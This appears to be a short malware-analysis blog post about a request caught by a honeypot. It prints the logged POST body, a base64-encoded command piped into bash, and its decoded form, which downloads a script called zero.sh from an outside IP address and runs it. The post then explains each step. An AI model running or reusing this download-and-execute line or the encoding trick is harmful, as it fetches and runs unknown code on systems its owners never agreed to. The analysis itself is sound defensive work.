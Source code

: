 ```yaml
---
layout: post
title:  "Masked sh command"
date:   2022-10-02 18:25:33 +0100
category: malware
tags: malware reverse-engineering honey-pot ghidra
--- 
```

The honey pot picked up an interesting request:
```
16:29:23.246 Handling POST to / request from ***.**.***.*
>>>Headers: honey-pot-ip:8080 Keep-Alive Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 application/x-www-form-urlencoded 179 
>>>Body: doAs="echo Y2QgL3RtcCB8fCBjZCAvbW50IHx8ICBjZCAvcm9vdCB8fCBjZCAvOyBjdXJsIC1PIGh0dHA6Ly8xNzYuNjUuMTM3LjUvemVyby5zaDsgY2htb2QgNzc3IHplcm8uc2g7IHNoIHplcm8uc2ggJg== | base64 -d | bash"
16:29:23.246 completed response status 200
```
The requests body is using echo to pipe text encoded in [base64](https://en.wikipedia.org/wiki/Base64) into [GNU base64 decoder](https://www.gnu.org/software/coreutils/base64) to decode it, the decoded out put is then piped into bash (causing bash to execute the decoded text)

If we use GNU base64 to decode the text we get the following:

{% highlight SH %}
cd /tmp || cd /mnt ||  cd /root || cd /; curl -O http://176.65.137.5/zero.sh; chmod 777 zero.sh; sh zero.sh &
{% endhighlight %}

We can see the decoded text is very similar to attacks we have seen before.

The first part `cd /tmp || cd /mnt ||  cd /root || cd /` attempts to change the current directory.
`||` is bash or command, if `cd /tmp` fails then `cd /mnt` is run if that fails then `cd /root` is run etc.

The next part of the command `curl -O http://176.65.137.5/zero.sh; chmod 777 zero.sh; sh zero.sh` attempts to download a sh script and execute it. Unfortunately (though probably for the best) if we use curl to retrieve `http://176.65.137.5/zero.sh` we get 403 Forbidden.

We can only assume that `zero.sh` would have done what we have seen before and downloaded and run malware to the device.

Its curious why does this attack encode the command in base64, could it be doing this to attempting to bypass firewall/anti-malware software?
